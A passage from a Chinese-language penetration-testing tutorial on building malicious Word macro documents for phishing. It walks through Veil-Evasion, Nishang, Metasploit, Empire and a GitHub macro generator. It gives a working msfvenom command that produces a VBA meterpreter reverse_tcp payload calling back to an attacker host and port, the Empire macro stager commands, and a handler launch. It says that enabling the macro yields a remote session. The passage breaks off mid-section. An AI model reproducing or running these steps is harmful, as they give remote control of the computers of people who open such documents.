 开启监听：

```
root@kali:~/Veil-Evasion# msfconsole -r /usr/share/veil-output/handlers/test_handler.rc

```

打开word文档会有此提示：

![Alt text](http://drops.javaweb.org/uploads/images/e1ed040a3c4544c6fe1115fb4a794332184cd872.jpg)

点击启用，则生成meterpreter会话。

![Alt text](http://drops.javaweb.org/uploads/images/3ed07fd6f28cd74defb26dc88759213811893891.jpg)

### 2、 Nishang

nishang的使用早在[《使用powershell Client进行有效钓鱼》](http://drops.wooyun.org/tips/8568)有所介绍，有兴趣的小伙伴可以再去看看。

### 3、 Metasploit

作为一个神器，Msf当然也可以生成VBA的后门文件，具体命令如下：

```
☁  ~  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.100 lport=8888 -e x86/shikata_ga_nai exitfunc=thread -f vba > vcode.txt

```

### 4、 Empire

```
(Empire) > listeners
[!] No listeners currently active 
(Empire: listeners) > execute
(Empire: listeners) > usestager macro
(Empire: stager/macro) > set Listener test
(Empire: stager/macro) > set OutFile /tmp/macro.txt
(Empire: stager/macro) > execute

[*] Stager output written out to: /tmp/macro.txt

```

将代码写入宏，执行可成功返回会话：

![Alt text](http://drops.javaweb.org/uploads/images/3413bfae9c158b22b1a9ec64509acb13234e0e38.jpg)

### 5、 Scripts

```
☁  office  git clone https://github.com/enigma0x3/Generate-Macro.git

```

使用方式如下：
